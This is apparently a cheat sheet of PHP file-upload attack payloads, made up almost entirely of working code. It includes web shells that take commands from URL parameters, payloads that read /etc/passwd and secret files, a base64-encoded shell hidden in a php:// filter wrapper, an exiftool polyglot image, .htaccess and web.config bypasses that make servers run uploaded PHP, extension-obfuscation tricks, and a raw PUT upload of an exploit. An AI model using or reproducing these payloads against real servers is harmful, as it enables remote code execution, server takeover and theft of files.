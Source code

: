 # PHP Payloads for RCE

## Normal Payloads
```php
<?php echo file_get_contents('/etc/passwd'); ?> >> To read files
<?php system($_GET['cmd']); ?> >> For system command
<?php passthru($_GET['cyborg71']); ?> >> For system command*
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" hacker.jpg -o polyglot.php
php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=ls
```
## Exploiting Server Configuration
___
### Apache Bypass
```
Step 1 >>
filename=".htaccess"
Content-Type: text/plain
AddType application/x-httpd-php .shell
Step 2 >>
Content-Type: application/x-httpd-php
<?php system($_GET['cmd']); ?>
```
### IIS Bypass
```
Step 1 >>
filename="web.config"
Content-Type: text/plain
<configuration>
    <system.webServer>
        <staticContent>
            <mimeMap fileExtension=".php" mimeType="application/x-httpd-php" />
        </staticContent>
    </system.webServer>
</configuration>
Step 2 >>
Content-Type: application/x-httpd-php
<?php system($_GET['cmd']); ?>
```
## Obfuscating File Extensions
```
.php
.php3
.php4
.php5
.pHp
.shtml
.php.jpg
.php.png
%2Ephp
.php;.jpg
.php;.png  
.php%00.jpg
.php%00.png
.p.phphp
```
### Uploading files using PUT
```txt
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```
